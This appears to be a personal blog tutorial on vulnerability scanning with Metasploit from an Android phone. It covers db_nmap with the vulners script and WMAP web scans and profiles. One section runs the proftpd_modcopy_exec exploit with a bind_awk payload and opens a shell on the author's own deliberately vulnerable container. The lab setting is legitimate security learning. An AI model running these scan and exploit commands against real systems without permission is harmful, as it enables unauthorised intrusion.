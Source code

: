 ```yaml
---
title: 'Vulnerability Scanning with Metasploit'
layout: post
published: true
permalink: vulnerability-scanning-metasploit
tags: [ linux, security, vulnerabilities, vulnerability, metasploit ]
---
```


In testing Kali Nethunter on my OnePlus One I have been on the hunt for tools and workflows that can run on something as lightweight as an Android phone. I also want to see how far I can get without me having to run an external server. 

Vulnerability scanning using OpenVAS, Nessus, or anything else is definitely not something that runs well on lightweight hardware. In my experience, a dedicated vulnerability scanner is pretty resource intensive.

So in using Metasploit as my primary tool for exploiting vulnerable software, I wanted to document some tips I've found to do vulnerability scanning using Metasploit. I will update this post if I find more workflows.

## Nmap + Metasploit:
 
I recently found out that you can use `nmap` directly from Metasploit using the `db_nmap` module. Using this module is really nice because you can get the service results imported directly into Metasploit.

Here's an example `db_nmap` command in Metasploit:

```bash
msf6 > db_nmap -sV 192.168.1.5
```

Here's the output (this host is running my [vulnerable Docker container](https://hub.docker.com/r/heywoodlh/vulnerable)):

```bash
msf6 > db_nmap -sV 192.168.1.5
[*] Nmap: Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-08 03:47 UTC
[*] Nmap: Nmap scan report for 192.168.1.5 (192.168.1.5)
[*] Nmap: Host is up (0.12s latency).
[*] Nmap: rDNS record for 192.168.1.5: 192.168.1.5.vultr.com
[*] Nmap: Not shown: 991 closed ports
[*] Nmap: PORT     STATE    SERVICE     VERSION
[*] Nmap: 21/tcp   open     ftp         ProFTPD 1.3.5
[*] Nmap: 22/tcp   open     ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
[*] Nmap: 25/tcp   filtered smtp
[*] Nmap: 80/tcp   open     http        Apache httpd 2.4.7 ((Ubuntu))
[*] Nmap: 139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
[*] Nmap: 445/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
[*] Nmap: 631/tcp  open     ipp         CUPS 1.7
[*] Nmap: 6667/tcp open     irc         UnrealIRCd
[*] Nmap: Service Info: Hosts: VULN, irc.TestIRC.net; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 18.18 seconds
```

Now, Metasploit is aware of those services on that host. Check with the `services` command:

```bash
msf6 > services
Services
========

host          port  proto  name         state     info
----          ----  -----  ----         -----     ----
192.168.1.5  21    tcp    ftp          open      ProFTPD 1.3.5
192.168.1.5  22    tcp    ssh          open      OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 Ubuntu Linux; proto
                                                  col 2.0
192.168.1.5  25    tcp    smtp         filtered
192.168.1.5  80    tcp    http         open      Apache httpd 2.4.7 (Ubuntu)
192.168.1.5  139   tcp    netbios-ssn  open      Samba smbd 3.X - 4.X workgroup: WORKGROUP
192.168.1.5  445   tcp    netbios-ssn  open      Samba smbd 3.X - 4.X workgroup: WORKGROUP
192.168.1.5  631   tcp    ipp          open      CUPS 1.7
192.168.1.5  6667  tcp    irc          open      UnrealIRCd
```

With `db_nmap` it will automatically import vulnerabilities if you use any of `nmap`'s vulnerability scanning scripts.

Here's an example command:

```bash
msf6 > db_nmap -sV --script=vulners.nse 192.168.1.5
```

Once that command completed, I could use the `vulns` command to check out the exploits stored in Metasploit that were discovered using `nmap`:

```bash
msf6 > vulns

Vulnerabilities
===============

Timestamp                Host          Name                             References
---------                ----          ----                             ----------
2021-08-08 03:55:55 UTC  192.168.1.5  cpe:/a:proftpd:proftpd:1.3.5     CVE-2015-3306,SAINT:950EB68D408A40399926A4CCAD3CC62E,SAINT:63FB77B9136D48259E4F0D4CDA35E957,SAINT:1B08F4664C428B180EEC9617B41D9A2C,PROFTPD_MOD_COPY,PACKETSTORM:162777,PACKETSTORM:132218,PACKETSTORM:131567,PACKETSTORM:131555,PACKETSTORM:131505,MSF:EXPLOIT/UNIX/FTP/PROFTPD_MODCOPY_EXEC,EDB-ID:49908,EDB-ID:37262,EDB-ID:36803,EDB-ID:36742,1337DAY-ID-23720,1337DAY-ID-23544,SSV:61050,MSF:ILITIES/SUSE-CVE-2019-18217/,CVE-2019-19272,CVE-2019-19271,CVE-2019-19270,CVE-2019-18217,CVE-2016-3125,CVE-2013-4359,CVE-2017-7418

<snipped>
```

You can see there is a vulnerability that Metasploit has an exploit for in the above output of `vulns`:

```
MSF:EXPLOIT/UNIX/FTP/PROFTPD_MODCOPY_EXEC
```

So let's exploit it:

```bash
msf6 > use exploit/unix/ftp/proftpd_modcopy_exec
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set RHOSTS 192.168.1.5
RHOSTS => 192.168.1.5
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set SITEPATH /var/www/html
SITEPATH => /var/www/html
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set payload cmd/unix/bind_awk 
payload => cmd/unix/bind_awk
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > run 

[*] 192.168.1.5:80 - 192.168.1.5:21 - Connected to FTP server
[*] 192.168.1.5:80 - 192.168.1.5:21 - Sending copy commands to FTP server
[*] 192.168.1.5:80 - Executing PHP payload /VlrUb.php
[*] Started bind TCP handler against 192.168.1.5:4444
[*] Command shell session 1 opened (0.0.0.0:0 -> 192.168.1.5:4444) at 2021-08-08 04:21:30 +0000
```

There we go! Shell created using the results of a vulnerability scan performed on an Android phone. Epic.

I would recommend using more `nmap` vulnerability scanning scripts with Metasploit's `db_nmap` module. I found this article very useful on vulnerability scanning with `nmap`: 

[How to Detect CVEs Using Nmap Vulnerability Scan Scripts](https://securitytrails.com/blog/nmap-vulnerability-scan)

## Web Application Vulnerability Scans:

This was also news to me, but Metasploit has a built-in web application vulnerability scanning module: WMAP:

[WMAP Web Scanner](https://www.offensive-security.com/metasploit-unleashed/wmap-web-scanner/)

The documentation for WMAP in somebody else's old Github repo of Metasploit's outlines what makes WMAP special:

[https://github.com/lattera/metasploit/blob/master/documentation/wmap.txt](https://github.com/lattera/metasploit/blob/master/documentation/wmap.txt)

It doesn't look like it's been updated for 10 years. Per the explanation in the link above, WMAP will use information stored in the database to intelligently attack your target. In addition, you can create WMAP profiles to use newer or even custom modules in Metasploit -- this makes WMAP extensible and still relevant.

Let's try it out.

First, load `wmap` and configure your target:

```
msf6 > load wmap

.-.-.-..-.-.-..---..---.
| | | || | | || | || |-'
`-----'`-'-'-'`-^-'`-'
[WMAP 1.5.1] ===  et [  ] metasploit.com 2012
[*] Successfully loaded plugin: wmap
msf6 > wmap_sites -a http://192.168.1.5
[*] Site created.
msf6 > wmap_targets -t http://192.168.1.5/drupal
msf6 > wmap_targets -l
[*] Defined targets
===============

     Id  Vhost         Host          Port  SSL    Path
     --  -----         ----          ----  ---    ----
     0   192.168.1.5  192.168.1.5  80    false  /drupal
```

Next, run tests against your target:

```
msf6 > wmap_run -t
[*] Testing target:
[*] 	Site: 192.168.1.5 (192.168.1.5)
[*] 	Port: 80 SSL: false
============================================================
[*] Testing started. 2021-08-08 04:43:27 +0000
[*] Loading wmap modules...
<snipped>
```

Finally, run your scan:

```
msf6 > wmap_run -e 
[*] Using ALL wmap enabled modules.
[-] NO WMAP NODES DEFINED. Executing local modules
[*] Testing target:
[*] 	Site: 192.168.1.5 (192.168.1.5)
[*] 	Port: 80 SSL: false
============================================================
[*] Testing started. 2021-08-08 04:50:06 +0000
[*] 
=[ SSL testing ]=
============================================================
[*] Target is not SSL. SSL modules disabled.
[*] 
=[ Web Server testing ]=
============================================================
[*] Module auxiliary/scanner/http/http_version

[+] 192.168.1.5:80 Apache/2.4.7 (Ubuntu)
[*] Module auxiliary/scanner/http/open_proxy
[*] Module auxiliary/admin/http/tomcat_administration
<snipped>
```

### Using Custom WMAP profiles:

In the [Metasploit Github repo](https://github.com/rapid7/metasploit-framework) there is some documentation showing how you can extend WMAP to use other modules using WMAP profiles:

[wmap_sample_profile.txt](https://github.com/rapid7/metasploit-framework/blob/master/data/wmap/wmap_sample_profile.txt)

Here's the file:
```
# 
# WMAP 1.0 Sample Profile
# wmap_run -e /path/to/profile
#
# Just add the name of the module. Use # for comments
#
frontpage
frontpage_login
options 
version 
backup_file 
#blind_sql_query 
#brute_dirs 
copy_of_file 
dir_listing 
dir_scanner
file_same_name_dir
writable
```

You can see from the comments in the file that you can extend WMAP to use other modules. This makes WMAP really useful as you can test newer or custom Metasploit modules against a web server.

So as an easy example, you could use that example profile, place it in `/tmp/wmap-profile` and then run the WMAP profile with the following command in Metasploit:

```
msf6 > wmap_run -e /tmp/wmap-profile
```

As I stated earlier, this makes WMAP extensible and will probably keep it forever useful as Rapid 7 continues to create and update Metasploit's modules.
